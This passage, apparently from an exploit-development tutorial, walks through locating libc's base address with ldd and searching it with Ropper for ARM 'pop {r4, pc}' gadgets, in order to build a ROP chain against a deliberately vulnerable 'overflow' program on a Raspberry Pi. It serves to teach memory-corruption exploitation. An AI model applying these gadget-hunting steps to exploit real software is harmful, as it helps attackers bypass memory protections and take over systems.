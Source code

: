 ## Find Addresses

### Find Base Address

Now, we need to find out the shared library dependency for a particular executable of a vulnerable program,

```
$ ldd ./overflow
	linux-vdso.so.1 (0x76ffd000)
	/usr/lib/arm-linux-gnueabihf/libarmmem.so (0x76fb8000)
	libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e79000)
	/lib/ld-linux-armhf.so.3 (0x76fce000)

```

**Note**: For larger/complex program the output is much longer. In that case, it is better to filter using  `grep`.

```
$ ldd ./overflow | grep "libc.so.6"
    libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e47000)

```

The base address is required to obtain the final address of the gadgets.

### Address of the 1st gadget
First, let's find the address of **`pop {r4, pc}`** using Ropper.

```bash
pi@raspberrypi:~$ ropper --file /lib/arm-linux-gnueabihf/libc.so.6 --search "pop {r4, pc}"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop {r4, pc}

[INFO] File: /lib/arm-linux-gnueabihf/libc.so.6
0x00018164: pop {r4, pc}; 
0x000c4308: pop {r4, pc}; cmp r1, #2; strls r1, [r0, #0x10c]; movls r0, #0; movhi r0, #0x16; bx lr; 
0x0010d30c: pop {r4, pc}; cmp r2, #0; bne #0x10d320; mov r0, #1; bx lr; 
0x00114a90: pop {r4, pc}; ldr r3, [pc, #0x24]; add r3, pc, r3; ldr r3, [r3]; ldr r3, [r3]; blx r3; 
0x00114b5c: pop {r4, pc}; ldr r3, [pc, #0x28]; add r3, pc, r3; ldr r3, [r3]; ldr r3, [r3, #4]; blx r3; 
0x000c42d0: pop {r4, pc}; ldr r3, [r0, #0x10c]; mov r0, #0; str r3, [r1]; bx lr; 
0x000c3a80: pop {r4, pc}; ldrsh r3, [r0]; mov r0, #0; strh r3, [r1]; bx lr; 
0x000c3a40: pop {r4, pc}; mov r0, #0; bx lr; 
0x00114798: pop {r4, pc}; mov r0, #0; pop {r4, pc}; mov r0, #0; bx lr; 
0x000d16b4: pop {r4, pc}; mov r0, #1; bx lr; 
0x0008065c: pop {r4, pc}; mov r0, ip; bx lr; 
0x00077960: pop {r4, pc}; mov r0, r1; bx lr; 
0x00073904: pop {r4, pc}; mov r1, lr; bx r3; 
0x000f4d00: pop {r4, pc}; mvn r0, #0; bx lr; 
0x000f57f8: pop {r4, pc}; mvn r0, #0; pop {r4, pc}; mvn r0, #0; bx lr;
```
